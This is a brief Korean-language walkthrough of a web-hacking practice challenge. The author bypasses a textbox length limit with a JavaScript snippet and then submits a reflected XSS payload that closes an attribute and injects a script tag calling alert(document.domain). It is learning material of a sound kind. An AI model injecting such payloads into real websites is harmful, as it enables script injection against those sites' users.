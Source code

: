 그래서 힌트에 따라서 텍스트박스의 길이가 제한된 부분을 주목했다.

maxlength를 강제로 늘리고 거기에 스크립트를 실행하면 되지 않을까?

void(document.forms[0].p1.maxLength="100"); 을 통해서 길이를 늘려주고

텍스트박스에

"/><script>alert(document.domain);</script>

를 입력하고 submit했더니

<img width="1078" alt="Screen_Shot_2021-11-07_at_12 40 34_AM" src="https://user-images.githubusercontent.com/89091736/140616255-1a3e7770-0e2c-4b01-80a4-565112beec1c.png">


요렇게 바뀌면서 통과되었다.
